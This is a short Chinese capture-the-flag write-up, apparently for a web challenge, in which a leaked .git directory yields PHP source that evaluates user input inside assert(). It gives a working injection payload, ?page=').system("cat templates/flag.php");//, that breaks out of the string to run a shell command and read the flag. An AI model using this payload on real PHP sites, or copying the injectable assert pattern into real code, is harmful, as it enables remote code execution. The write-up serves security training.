



发现了git


使用GitHack下载一下源文件，找到了php源代码

```csharp
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

解析

```csharp
<?php
// 获取GET参数中的page值，如果不存在则默认为"home"
if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    $page = "home";
}

// 拼接文件路径，将page值作为文件名
$file = "templates/" . $page . ".php";

// 安全检查：确保路径中不包含".."（目录遍历攻击防护）
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// 安全检查：确保文件存在
assert("file_exists('$file')") or die("That file doesn't exist!");
?>
```

解题：



?page=').system("cat templates/flag.php");//

’)进行闭合
system("cat templates/flag.php")表示在系统中执行cat templates/flag.php命令，该命令用于查看templates目录下的flag.php文件内容

在源码中可以看到flag


